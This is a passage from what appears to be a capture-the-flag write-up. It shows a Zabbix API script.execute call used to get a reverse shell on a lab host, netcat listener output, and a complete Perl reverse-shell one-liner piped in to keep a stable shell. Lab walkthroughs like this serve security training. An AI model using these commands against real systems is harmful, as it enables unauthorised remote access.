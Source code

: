 With a listener running (`nc -lnvp 443`), I’ll hit the script.execute api again. This time it just hangs (and eventually times out):

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": 10106, "scriptid": 4}}' | jq -c .
{"jsonrpc": "2.0","error": {"code": -32500,"message": "Application error.","data": "Connection timeout of 60 seconds exceeded when connecting to Zabbix server \"localhost\"."},"id": 1}

```

But in my other window, I have a shell:

```

root@kali# nc -lvnp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.108.
Ncat: Connection from 10.10.10.108:42864.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$ horoot@kali#

```

But only for a second. It dies very quickly (after I get through the `ho` in `hostname`).

#### Stable Shell

I can get around this by being ready to run a second reverse shell in the window when it comes back. I can do this programmatically using `cat` and pipes. I’ll put a `perl` reverse shell into a file:

```

root@kali# cat perl.shell 
perl -e 'use Socket;$i="10.10.14.14";$p=445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

Then I’ll start my listener on 443 with that shell being `cat` into it:

```

root@kali# cat perl.shell | nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```
